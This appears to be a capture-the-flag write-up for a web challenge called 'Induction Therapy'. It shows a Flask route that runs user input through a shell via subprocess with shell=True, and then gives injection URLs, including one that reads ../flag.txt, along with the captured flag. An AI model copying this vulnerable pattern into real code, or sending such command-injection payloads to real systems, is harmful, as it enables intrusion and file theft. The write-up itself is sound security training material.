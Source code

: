 # Induction Therapy - web

## Challenge

The citizens of Freedonia are preparing for an upcoming national vote - but before they can make their voices heard, they’ll need to get informed. This challenge drops participants into a voter education web portal where all candidates, policies, and debates are presented for review. Only time will tell who'll you vote for soon...

Provided domain & zip file containing source code.

## Solve

In the source we can see the `pretty()` function is vulnerable to command injection:

```py
@app.route("/pretty")
def pretty():
    fmt = request.args.get("format", "")
    try:
        result = subprocess.check_output(f"date +'{fmt}'", shell=True, stderr=subprocess.STDOUT, timeout=2)
        return f"{result.decode()}"
    except subprocess.CalledProcessError as e:
        return f"Error: {e.output.decode()}", 400
    except Exception as e:
        return f"{str(e)}", 500
```

- `result = subprocess.check_output(f"date +'{fmt}'", shell=True, stderr=subprocess.STDOUT, timeout=2)`
  - Uses Python `subprocess` module to run a shell command and stores output in `result`
  - `subprocess.check_output()` runs command in subprocess
  - `fmt = request.args.get("format", "")` captures format from user
  - `shell=True` runs the command through a shell e.g `bin/sh`
  - `stderr=subprocess.STDOUT` both `stderr` and `stdout` are returned in `result`

Since we control `fmt`, we can inject commands by escaping with `'` and chaining with `;`:

`3.105.27.130:9001/pretty?format=';<further_commands>`

After exploring the file structure I eventually retrieved the flag with:

`3.105.27.130:9001/pretty?format=';cat ../flag.txt'`

<img width="647" height="72" alt="commandinject" src="https://github.com/user-attachments/assets/55de4472-5c31-4087-b9c6-de93924f520a" />


`secedu{th3re_is_4lways_a_t1me_&_plac3_to_bre4k_0u7}`



